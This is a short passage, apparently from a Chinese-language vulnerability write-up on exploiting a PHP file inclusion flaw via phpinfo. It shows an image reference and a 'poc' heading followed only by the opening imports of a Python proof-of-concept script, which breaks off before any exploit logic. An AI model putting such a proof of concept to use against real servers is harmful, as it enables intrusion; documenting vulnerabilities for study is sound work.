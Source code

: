 ![2.png](resource/Php文件包含漏洞(利用phpinfo)/media/rId28.png)

### poc

    #!/usr/bin/python 
    import sys
    import threading
    import socket
